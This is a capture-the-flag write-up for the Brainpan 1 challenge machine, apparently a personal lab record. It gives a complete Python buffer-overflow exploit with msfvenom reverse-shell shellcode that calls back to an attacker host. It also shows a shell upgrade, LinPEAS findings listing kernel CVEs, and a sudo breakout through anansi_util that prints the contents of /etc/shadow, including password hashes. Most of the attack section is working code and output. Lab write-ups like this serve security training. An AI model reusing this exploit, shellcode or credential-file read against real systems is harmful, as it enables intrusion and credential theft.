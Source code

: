 # Brainpan 1
## Recon

The only thing I know about this challenge is there is a buffer overflow involved.

## Scanning

```bash
PORT      STATE SERVICE REASON         VERSION                                                                 
9999/tcp  open  abyss?  syn-ack ttl 61                                                                         
| fingerprint-strings:                                                                                         
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|  
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack ttl 61 SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
```

## Enumeration

Port `9999` is some console. I did a few password guesses but nothing stuck. Port `10000` is running a webserver which has a slightly outdated infographic about secure coding. Dirbuster found a `/bin/` directory on the webserver. There's one executable file hosted there: `brainpan.exe`. This much be the service behind port 9999. I'll copy it away for exploit development in my lab. The box says to do the work in linux, but why? I already can do it repetedly in Windows. Maybe someday I'll learn the finer points of linux debuggers, but for now I'll do it the way I already know how.

## Exploit development.

I got the service running in my lab and verified the port with nmap. The output for port 9999 matched the initial scan exactly!

The buffer overflow script I wrote only identified `\x00` as a badchar. Additionally the exploit is failing.

The exploit was failing because of a bug in the script. Working now.

I swapped out some variables and made the exploit ready for brainpan. Here is the final result:

```python3
#!/usr/bin/env python3

import socket

ip = "10.10.109.180"
port = 9999

prefix = " "
offset = 523
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.73.217 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
payload = "\xda\xc4\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x52\xbb\xad\xfc\xa8\x8e\x31\x58\x17\x83\xe8\xfc\x03\xf5\xef\x4a\x7b\xf9\xf8\x09\x84\x01\xf9\x6d\x0c\xe4\xc8\xad\x6a\x6d\x7a\x1e\xf8\x23\x77\xd5\xac\xd7\x0c\x9b\x78\xd8\xa5\x16\x5f\xd7\x36\x0a\xa3\x76\xb5\x51\xf0\x58\x84\x99\x05\x99\xc1\xc4\xe4\xcb\x9a\x83\x5b\xfb\xaf\xde\x67\x70\xe3\xcf\xef\x65\xb4\xee\xde\x38\xce\xa8\xc0\xbb\x03\xc1\x48\xa3\x40\xec\x03\x58\xb2\x9a\x95\x88\x8a\x63\x39\xf5\x22\x96\x43\x32\x84\x49\x36\x4a\xf6\xf4\x41\x89\x84\x22\xc7\x09\x2e\xa0\x7f\xf5\xce\x65\x19\x7e\xdc\xc2\x6d\xd8\xc1\xd5\xa2\x53\xfd\x5e\x45\xb3\x77\x24\x62\x17\xd3\xfe\x0b\x0e\xb9\x51\x33\x50\x62\x0d\x91\x1b\x8f\x5a\xa8\x46\xd8\xaf\x81\x78\x18\xb8\x92\x0b\x2a\x67\x09\x83\x06\xe0\x97\x54\x68\xdb\x60\xca\x97\xe4\x90\xc3\x53\xb0\xc0\x7b\x75\xb9\x8a\x7b\x7a\x6c\x1c\x2b\xd4\xdf\xdd\x9b\x94\x8f\xb5\xf1\x1a\xef\xa6\xfa\xf0\x98\x4d\x01\x93\xac\x93\x40\xba\xd9\x91\x52\x2d\x46\x1f\xb4\x27\x66\x49\x6f\xd0\x1f\xd0\xfb\x41\xdf\xce\x86\x42\x6b\xfd\x77\x0c\x9c\x88\x6b\xf9\x6c\xc7\xd1\xac\x73\xfd\x7d\x32\xe1\x9a\x7d\x3d\x1a\x35\x2a\x6a\xec\x4c\xbe\x86\x57\xe7\xdc\x5a\x01\xc0\x64\x81\xf2\xcf\x65\x44\x4e\xf4\x75\x90\x4f\xb0\x21\x4c\x06\x6e\x9f\x2a\xf0\xc0\x49\xe5\xaf\x8a\x1d\x70\x9c\x0c\x5b\x7d\xc9\xfa\x83\xcc\xa4\xba\xbc\xe1\x20\x4b\xc5\x1f\xd1\xb4\x1c\xa4\xf1\x56\xb4\xd1\x99\xce\x5d\x58\xc4\xf0\x88\x9f\xf1\x72\x38\x60\x06\x6a\x49\x65\x42\x2c\xa2\x17\xdb\xd9\xc4\x84\xdc\xcb;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```

I get a shell. But not a very good one. I was able to get a somewhat normal shell by executing `/bin/bash` and the python pty.spawn trick.

```python3
python3 -c "import pty; pty.spawn('/bin/bash');"
```

The shell was still pretty unstable and unpredictable, so I ran linpeas and downloaded the output for review.

### LinPEAS findings

> OS: Linux version 3.5.0-25-generic (buildd@lamiak) (gcc
 version 4.7.2 (Ubuntu/Linaro 4.7.2-2ubuntu1) ) #39-Ubuntu SMP Mon Feb 25
 19:02:34 UTC 2013

> Sudo 1.8.5p2

> PROCESSOR_ARCHITECTURE=x86

>  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
>  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
>  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
>  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
>  [5] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
>  [6] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

The output is messy, but it appears cron is running and the standard crontab file has an entry that starts chksrv.sh (the script that starts brainpan.exe).

> # m h  dom mon dow   command
> * * * * * /home/puck/checksrv.sh


> User puck may run the following commands on this host:
>    (root) NOPASSWD: /home/anansi/bin/anansi_util

> ╔══════════╣ .sh files in path
> ╚ https://book.hacktricks.xyz/linux-unix/privilege-esca
> lation#script-binaries-in-path
> /usr/bin/gettext.sh

I was investigating the crontab file to see if I could gain execution somehow. I don't have write access to crontab, or the script it calls...but wait. The brainpan executable was in my users's home directory. Maybe have write permissions to it.

I started playing with `anansi_util` since I was able to run it as sudo. Using GTFO bins I was able to find a few different breakout methods for the manual command.

I was able to read `/etc/shadow`

```bash
Z:\home\puck>sudo /home/anansi/bin/anansi_util manual /etc/shadowi

root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdO‐hg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZa‐Dioh0:15768:0:99999:7:::              

reynard:$6$h54J.qxd$yL5md3J4dON‐wNl.36iA.mkcabQqRMmeZ0VFKxIVpX‐eNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::

anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xv‐Ja3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1ly‐DGIPE1:15768:0:99999:7:::

puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEm‐bIcBF9Oi7q2eAi0TMMqO‐hg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::
```


